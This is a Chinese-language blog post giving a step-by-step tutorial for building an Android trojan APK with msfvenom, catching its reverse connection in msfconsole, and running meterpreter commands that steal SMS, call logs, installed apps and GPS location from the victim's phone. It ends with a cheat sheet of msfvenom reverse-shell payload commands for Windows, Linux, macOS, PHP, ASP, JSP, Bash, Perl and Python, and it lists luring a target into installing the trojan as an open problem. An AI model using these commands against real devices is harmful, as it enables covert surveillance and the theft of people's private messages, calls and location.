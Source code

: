 ```yaml
---
layout: post  
title: Android 后门程序
date: 2022-11-23  
tags:  技术
---
```

### 纵然时光相隔百年，仍感你心近在咫尺。

## Kali Linux利用MSF入侵安卓手机

环境：kali Linux。  
靶机：One plus 6T。(验证了其它品牌手机或模拟器都可以)  
工具：msfvenom、msfconsole（Kali系统内置，利用漏洞生成后门软件）。   

## 大致流程：  
1. 生成手机安装的木马文件 -> muma.apk.  
2. 开启监听程序，监听靶机是否上钩。 
3. 通过某些手段使靶机安装我们的木马文件，并点击打开。
4. 当靶机安装木马文件并点击后，监听程序便得到了响应，通过命令获取靶机信息。

## go
```
1.启动kali系统，打开命令行。  

2.su        -》 进入root模式。

3.ifconfig      -》 查看内网IP，如图，我的IP是 192.168.0.114，备用。
```

<br/>
![](/images/posts/kaliMSF/1.png){:width="80%" height="80%"}  
<br/>

```
4.msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.0.114 lport=3369 > muma.apk     
 -》  lhost是kali的IP；lport随便写一个没有被占用的端口号就可以，记住，后面有用到；文件名随便写，后缀是 .apk 就行。
 如下图所示，此时木马文件已经生成，在 /home/kali  目录下。
```

<br/>
![](/images/posts/kaliMSF/2.png){:width="80%" height="80%"}  
<br/>

```
5.在 /home/kali 目录下找到生成的muma.apk文件。
```

<br/>
![](/images/posts/kaliMSF/3.png){:width="80%" height="80%"}  
<br/>

```
6. 我通过合法手段将木马文件安装在了我的测试机上。 
```

<br/>
![](/images/posts/kaliMSF/4.jpeg){:width="30%" height="30%"}  
<br/>


```
7. msfconsole     -》 启动 kali 内置的 msfconsole 工具。
```

<br/>
![](/images/posts/kaliMSF/5.png){:width="80%" height="80%"}  
<br/>

```
8.配置参数：   

use exploit/multi/handler     -》 （选择模块）

set payload android/meterpreter/reverse_tcp     -》（选择攻击模块）

set LhOST 192.168.0.114     -》（填写自己主机的IP地址）

set lport 3369      -》（填写刚才生成文件时的端口号）

run   -》 开始监听 

```
<br/>
![](/images/posts/kaliMSF/6.png){:width="80%" height="80%"}  
<br/>

```
9. 在靶机上点击刚刚安装的木马程序，并观察监听程序窗口，出现meterpreter你就已经成功的入侵。
```
<br/>
![](/images/posts/kaliMSF/7.png){:width="80%" height="80%"}  
<br/>


```

一些入侵命令  

1.查看对方手机系统信息

命令：sysinfo

2.查看对方手机安装哪些app文件

命令：app_list

3.实时查看对方手机的短信，所有短信，甚至包含手机上已经删除的

命令：dump_sms

4.获取对方手机的通话记录

命令：dump_calllog

5.实时获取对方手机GPS定位

命令：geolocate

```

```
如下图所示，这里成功的拿到了手机系统信息，以及所有短信，在 sms_dump_20221123021710.txt 这里。
当出现 [-] Error running command dump_calllog: Rex::TimeoutError Operation timed out，这个信息时，
则与靶机断开了连接，需要先退出监听 exit ，然后 重新运行 run ，再次在靶机上点击木马程序。

```
<br/>
![](/images/posts/kaliMSF/8.png){:width="80%" height="80%"}  
<br/>

<br/>
![](/images/posts/kaliMSF/9.png){:width="80%" height="80%"}  
<br/>

## 问题 

1. 如何将木马文件安装在目标手机上，并诱导用户点击。  
2. 连接有很大概率被拒绝 [*] 192.168.0.102 - Meterpreter session 3 closed.  Reason: Died，需要重试多次。
3. 连接过程中有很大概率被断开 [-] Error running command dump_calllog: Rex::TimeoutError Operation timed out，  需要重新运行监听程序。
4. 获取信息多为敏感信息，比如短信，通讯录，通话记录，定位信息等，这里是需要木马程序在靶机上申请敏感权限获取的，此时用户便会知情，点击拒绝则无法获取信息。

## 其它

你不只可以生成android手机的后台程序，还可以  
```
windows
msfvenom -p windows/meterpreter/reverse_tcp LPORT=控制机端口 LHOST=控制机ip -f -o shell.exe
安卓app:
msfvenom -p android/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口 -o test2.apk
Linux:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口 -f elf > shell.elf
Mac:
msfvenom -p osx/x86/shell_reverse_tcp LHOST=控制机ip LPORT=控制机端口 -f macho > shell.macho
PHP：
msfvenom -p php/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口-f raw -o test.php
ASP:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口-f asp > shell.asp
ASPX：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=控制机ip LPORT=控制机端口-f aspx > shell.aspx
JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=控制机ip LPORT=控制机端口 -f raw > shell.jsp
Bash：
msfvenom -p cmd/unix/reverse_bash LHOST=控制机ip LPORT=控制机端口-f   raw > shell.sh
Perl
msfvenom -p cmd/unix/reverse_perl LHOST=控制机ip LPORT=控制机端口-f raw > shell.pl
Python
msfvenom -p python/meterpreter/reverser_tcp LHOST=控制机ip LPORT=控制机端口-f   raw > shell.py
```

<br/>
<br/> 
<br/> 
<br/> 
<br/> 
<br/> 
<br/> 
转载请注明：[劉清揚的博客](http://yuqianglianshou.com) » [ Android 后门程序 ](http://yuqianglianshou.com/2022/11/android后门程序/)  
<br/>